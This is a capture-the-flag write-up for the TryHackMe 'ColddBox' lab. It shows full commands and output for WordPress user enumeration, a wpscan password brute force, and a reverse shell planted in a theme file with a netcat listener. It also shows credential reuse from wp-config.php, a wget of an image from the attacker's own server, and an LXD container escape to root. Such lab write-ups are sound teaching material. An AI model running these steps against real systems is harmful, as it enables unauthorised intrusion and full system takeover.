



PLATFORM: TryHackMe
AUTHOR: Hixec
DATE: 25/08/2026
TARGET:  10.80.132.0
## Overview
The target system was fully compromised due to weak access controls, exposed usernames and weak credential use.
i was able to gain an initial shell on the system and later escalate privileges to root.

# Attack Path Summary
The exposure of usernames in an exposed directory lead me to a successful brute force attack which made me able to access the account of an author within the site. This allowed for modification of files which lead to an initial shell on the system. Then the reuse of credentials lead to the compromise of the system user c0ldd. by leveraging c0ldd's
access to the system the i was able to gain a root shell with the use of LXC container escape.

# Enumeration

Network enumeration using Nmap identified 2 running services, HTTP on port 80 and DNS on port 53. on port 80 is a WordPress site. The WordPress version discovered was  4.1.31 which is outdated.
Further enumeration also Exposed the usernames C0ldd,hugo and philip which were found in an exposed directory called /hidden/.
i also found that the login page of the site has no rate limiting.

Command used:
`nmap -sV -sC -Pn -v 10.80.132.0`

Output:
```
Discovered open port 80/tcp on 10.80.132.0
PORT   STATE    SERVICE VERSION
53/tcp filtered domain
80/tcp open     http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
```

Command used:
`gobuster dir -u http://10.80.132.0 -w /usr/share/wordlists/dirb/common.txt`

Output:
```
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.80.132.0
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.hta                 (Status: 403) [Size: 276]
.htaccess            (Status: 403) [Size: 276]
.htpasswd            (Status: 403) [Size: 276]
hidden               (Status: 301) [Size: 311] [--> http://10.80.132.0/hidden/]
index.php            (Status: 301) [Size: 0] [--> http://10.80.132.0/]
server-status        (Status: 403) [Size: 276]
wp-admin             (Status: 301) [Size: 313] [--> http://10.80.132.0/wp-admin/]
wp-content           (Status: 301) [Size: 315] [--> http://10.80.132.0/wp-content/]
wp-includes          (Status: 301) [Size: 316] [--> http://10.80.132.0/wp-includes/]
xmlrpc.php           (Status: 200) [Size: 42]
Progress: 4613 / 4613 (100.00%)
===============================================================
Finished
===============================================================
```


hidden directory:



A scan with wpscan confirms the usernames and also the outdated WordPress installation.

Command used:
`wpscan --url http://10.80.132.0 --enumerate u`

Interesting output:
```
WordPress version 4.1.31 identified (Insecure, released on 2020-06-10).

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

# Initial Access
 With the exposed usernames and no rate limiting implicated, I was able to perform a successful brute force attack resulting in the compromise of the user c0ldd.
 Then with access to c0ldd's WordPress account, I modified files to place reverse shell code in them and gain an initial shell on the target.

Command used:
`wpscan --url http://10.80.132.0 --usernames philip,c0ldd,hugo --passwords Desktop/rockyou.txt`

output:
```
[+] Performing password attack on Wp Login against 3 user/s
[SUCCESS] - c0ldd / 9876543210
```





The file i placed my reverse shell in was functions.php in the TwentyFifteen theme.
The reverse shell code is on line 3-4.




I used Netcat to start a listener on port 9001 then visited the modified file in my browser to execute the reverse shell code.

```
> nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.133.166] from (UNKNOWN) [10.80.132.0] 33816
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```


### Stabilizing the shell:
```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ColddBox-Easy:/var/www/html$
CTR+Z
zsh: suspended  nc -lvnp 9001                                                    
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg         
[1]  + continued  nc -lvnp 9001

www-data@ColddBox-Easy:/var/www/html$ export TERM=xterm
www-data@ColddBox-Easy:/var/www/html$
```

# Privilege Escalation
After a little enumeration i found c0ldd is also a user on the target system.
although his password is not the same as his WordPress password.
I find C0ldd's database credentials in wp-config.php and used those to successfully access his account.

Database credentials found in /var/www/html/wp-config.php

```
/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');
```

i was able to change to the user c0ldd because the database password was also c0ldd's password on the system.

Becoming c0ldd:
```
su c0ldd
Password: cybersecurity

c0ldd@ColddBox-Easy:/var/www/html/wp-admin$ id
id
uid=1000(c0ldd) gid=1000(c0ldd) grupos=1000(c0ldd),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

after seeing that c0ldd is in the LXD group which grants access to the LXD daemon running with root privileges.  i was able to create a privileged LXD container and mount the host filesystem inside the container. as a result, i had obtained root-level access to the host system.

Using LXD to get a root shell:

To perform this PrivEsc i need a image so i transfer one to the target machine from my machine.

My machine:

```
┌──(kali㉿kali)-[~/privesc/lxd-alpine-builder]
└─$ python3 -m http.server 8080              
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

Target machine:

``c0ldd@ColddBox-Easy:/var/www/html$ cd /tmp`

`c0ldd@ColddBox-Easy:/tmp$ wget http://192.168.133.166:8080/alpine-v3.23-x86_64-20260328_1231.tar.gz`

First we import our image.
```
c0ldd@ColddBox-Easy:/tmp$ lxc image import alpine-v3.23-x86_64-20260328_1231.tar.gz --alias myalpine
Image imported with fingerprint: 279840774e97ebf7d30784aaa131618f244c3ab20220ce41881a11dcd8d7fb4d
c0ldd@ColddBox-Easy:/tmp$
```

then we initiate the environment using that image.
```
c0ldd@ColddBox-Easy:/tmp$ lxc init myalpine privesc -c security.privileged=true
Creando privesc
c0ldd@ColddBox-Easy:/tmp$
```

then we add the filesystem into the container.
```
c0ldd@ColddBox-Easy:/tmp$ lxc config device add privesc hostroot disk source=/ path=/mnt/root recursive=true
Device hostroot added to privesc
c0ldd@ColddBox-Easy:/tmp$
```

then we start the container.
```
c0ldd@ColddBox-Easy:/tmp$ lxc start privesc
c0ldd@ColddBox-Easy:/tmp$
```

then we start a shell inside the container.
```
c0ldd@ColddBox-Easy:/tmp$ lxc exec privesc /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # 
```

to go to the targets filesystem we go to /mnt/root

```
~ # cd /mnt/root
/mnt/root # ls
bin             lib             root            usr
boot            lib64           run             var
dev             lost+found      sbin            vmlinuz
etc             media           snap            vmlinuz.old
home            mnt             srv
initrd.img      opt             sys
initrd.img.old  proc            tmp
/mnt/root # 
```

And boom! we are now root and have complete access over the target machine.
note: I didn't want to leak the flags and that's why i didn't show them here.
